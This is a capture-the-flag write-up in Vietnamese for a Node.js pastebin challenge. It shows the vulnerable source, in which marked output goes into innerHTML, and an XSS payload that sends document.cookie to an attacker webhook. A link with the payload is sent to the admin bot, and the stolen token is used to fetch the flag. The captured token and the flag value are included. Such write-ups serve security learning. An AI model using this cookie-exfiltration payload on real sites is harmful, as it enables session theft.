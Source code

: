 # Đề bài:
![Screenshot (468)](https://github.com/ductohno/ehc-adward/assets/152991010/3028b1bc-7812-4bb3-9103-fac00d33e608)

- Giao diện trang web:

![Screenshot (469)](https://github.com/ductohno/ehc-adward/assets/152991010/9b23ac9d-4b99-4bf4-8c46-a37306f0a941)
# Source: 
```
const crypto = require('crypto')

const express = require('express')
const app = express()

const posts = new Map()

app.use(express.urlencoded({ extended: false }))

app.get('/', (_req, res) => {
    const placeholder = [
        '# Note title',
        'Content of the note. You can use *italics*!',
    ].join('\n')

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>Pastebin</h1>
            <form action="/create" method="POST">
                <textarea name="content">${placeholder}</textarea>
                <button type="submit">Create</button>
            </form>
        </div>
    `)
})

app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})

app.get('/view/:id', (_req, res) => {
    const marked = (
        'https://cdnjs.cloudflare.com/ajax/libs/marked/4.2.2/marked.min.js'
    )

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
        </div>
        <script src="${marked}"></script>
        <script>
            const content = document.querySelector('.content')
            const id = document.location.pathname.split('/').pop()

            delete (async () => {
                const response = await fetch(\`/content/\${id}\`)
                const text = await response.text()
                content.innerHTML = marked.parse(text)
            })()
        </script>
    `)
})

app.post('/create', (req, res) => {
    const data = req.body.content ?? ''
    const id = crypto.randomBytes(8).toString('hex')
    posts.set(id, data)
    res.redirect(`/view/${id}`)
})

app.get('/content/:id', (req, res) => {
    const id = req.params.id
    const data = posts.get(id) ?? ''
    res.type('text/plain').end(data)
})

app.get('/style.css', (_req, res) => {
    res.type('text/css').end(`
        * {
          font-family: system-ui, -apple-system, BlinkMacSystemFont,
            'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;
          box-sizing: border-box;
        }

        html,
        body {
          margin: 0;
        }

        .content {
          padding: 2rem;
          width: 90%;
          max-width: 900px;
          margin: auto;
        }

        input:not([type='submit']) {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
        }

        textarea {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
          resize: vertical;
          font-family: monospace;
        }

        input[type='submit'] {
          margin-bottom: 16px;
        }


    `)
})

app.listen(3000)
```
# Hướng làm: 
- Nhìn bài này thì em nghĩ ngay đến xss vì theo như code, ta cần có cookie để vào được path /flag để lấy flag, thử thôi
# Khai thác:
- Trước tiên vẫn là phải thử:
![Screenshot (470)](https://github.com/ductohno/ehc-adward/assets/152991010/6e9af75e-619b-485f-986e-f2193081cef3)
- Và ngay lập thức thông báo hiện ra:
![Screenshot (471)](https://github.com/ductohno/ehc-adward/assets/152991010/73478682-da8e-46cb-9b43-1c1bf932e335)
- Xss confirm, giờ chúng ta sẽ chuyển payload thành ```<img src=0 onerror='document.location="Your_Link(webhook)?cmd="+document.cookie'/>``` để chuyển hướng
- Nên bật sẵn burp suite
- Sau khi bấm submit thì gửi link đó cho con bot

![Screenshot (472)](https://github.com/ductohno/ehc-adward/assets/152991010/5a711dda-9a77-4844-b6c5-349d005a88d0)

- Ta nhận được token:

![Screenshot (473)](https://github.com/ductohno/ehc-adward/assets/152991010/00d3670e-544d-4afc-9f3b-dbb30da68be6)

- token=d15453b0234690ccbb91861e
- Giờ thì truy cập vô /flag và dùng token kia là cookie

![Screenshot (474)](https://github.com/ductohno/ehc-adward/assets/152991010/1af54793-aae7-4cbe-b9cb-091699bbe520)

# Flag:
actf{b534186fa8b28780b1fcd1e95e2a2e2c}



